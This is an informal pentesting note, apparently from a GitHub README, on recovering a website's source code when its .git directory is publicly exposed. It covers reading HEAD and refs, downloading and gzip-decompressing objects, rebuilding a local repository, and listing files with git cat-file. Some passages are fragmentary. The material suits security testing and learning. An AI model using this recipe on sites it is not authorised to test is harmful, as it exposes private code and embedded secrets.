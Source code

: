 ## Notes to get smthng interesting from open .git 




if you found  open **.git**  in a project try to get all:  **wget -r https://example.com**.
look at the difference **git diff**. 


if you found __hash commit__ try to use  **curl**.

 to cover the exploitation of a website that leaks its __.git__ repository in the root of the website. With modern URL mapping (i.e. not relaying on the filesystem) , it's less and less common to see this kind of issues but it's always important to look for them anyway.

If u can access the **.git** directory in the root of the web server directly. You can see that this time directory listing is disabled making the task of retrieving the content of the repository a bit more complex.

First, we can recover some files:.

- .git/config.
- .git/HEAD.

From .git/HEAD, u can see that the **HEAD** is at __refs/heads/master__ U can therefore access this file: __.git/refs/heads/master__ From that file, we get a hash: bc4f01bdd14060e4ac78b36972584909d287b6f1. This will link us to another file: __.git/objects/bc/4f01bdd14060e4ac78b36972584909d287b6f1__ (by using the **first two bytes** as a directory's name and the rest as the file's name.

Once you download the file, you will need to decompress it. The compression is done using **zlib** Unfortunately, most systems don't have a native tool to decompress zlib-compressed files. You can either use **gzip**:.

**printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" |cat - 4f01bdd14060e4ac78b36972584909d287b6f1 |gzip  -cd -q**

or ruby (for example):


**create our own local repo:**

- mkdir /tmp/hack
- cd /tmp/hack
- git init 

And copy our files in it:.

- mkdir -p .git/objects/58 .git/objects/bc
- cp /tmp/ace0476093d04023f84d7816adacfa7b879c43 /tmp/hack/.git/objects/58/
- cp /tmp/4f01bdd14060e4ac78b36972584909d287b6f1 /tmp/hack/.git/objects/bc/

**Then we should be able to retrieve the list of hashes:**

- git cat-file -p 58ace0476093d04023f84d7816adacfa7b879c43
- 040000 tree b352dde43705f193d2c1d4e6f6a133321186869f    css
- 100644 blob f303c6a7797f5e7a0d5bd31d39a7149366bbf873    favicon.ico
- 100644 blob 5adab1a1c52dc009d4f26bbce30dacc4c93eea33    footer.php
- 100644 blob c3646db7f9c7e6f126c75900fdcce16d50e1da82    header.php
- 100644 blob 88beb94b5e1fc48e1625c89f892b04bffb58225c    index.php

Once you're there, you can keep downloading the files and copying them in the right spot to get access to the full code using __git cat-file -p ....__

Some tools like **Git-Money, DVCS-Pillage and GitTools** automate the retrieval of the remote content.
